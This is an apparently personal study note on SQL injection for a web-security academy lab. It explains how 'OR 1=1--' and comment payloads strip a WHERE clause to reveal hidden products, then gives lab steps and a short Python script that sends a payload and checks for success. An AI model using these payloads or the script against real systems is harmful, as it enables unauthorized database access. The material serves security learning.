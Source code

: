 # Retrieving hidden data
---
Consider a shopping application that displays product in different categories. When the user clicks on the Gifts category, their browser requests the URL:
```html
https://insecure-website.com/products?category=Gifts
```

This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

This SQL query asks the database to return:
- all details (\*)
- from the products table
- where the category is _Gifts_
- and released is 1

The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`.
The application doesn't implement any defenses againts SQLi attacks, so an attacker can construct an attack like:
```html
https://insecure-website.com/products?category=Gifts'--
```

This results in the SQL query:
```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- The key thing here is that the _double-dash_ sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment.
- This effectively removes the remainder of the query, so it no longer includes `AND released = 1`.
- This means that all products are displayed, including unrealeased products.

Going futher, an attacker can cause the application to display all the products in any category, including categories that they don't know about:
```html
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

This results in the SQL query:
```sql
SELECT * FROM products WHERE category = 'Gift' OR 1=1--' AND released = 1
```
The modified query will return all items where either the category is _Gifts_, or _1_ is equal to _1_. Since `1=1` is always true, the query will return all items.

>[!warning]
> Take care when injecting the condition `OR 1=1` into a SQL query. Although this may be harmless. However, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an `UPDATE` or `DELETE` statement, this can result in an accidental loss of data.


# Lab: SQLi vulnerability in WHERE clause allowing retrieval of hidden data
---
1. intercept this link `https://0a65007b049969f28030120200e700ef.web-security-academy.net/filter?category=Gifts`
2. put the payload at the end `' OR 1=1-- `
3. it's going to be like this `https://0a65007b049969f28030120200e700ef.web-security-academy.net/filter?category=Gifts%27%20OR%201=1--`
4. solve!

```python
#!/usr/bin/env python3
import sys
import requests

def exploit_sqli(url, payload):
    r = requests.get(url+payload)
    if "Picture Box" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("[*] Usage: {} <url> <payload>".format(sys.argv[0]))
        print('[*] Example: {} http://example.com "\' OR 1=1-- "'.format(sys.argv[0]))
        sys.exit(1)

    if exploit_sqli(url, payload):
        print("[*] SQL injection successful.")
    else:
        print("[*] SQL injection not successful.")
```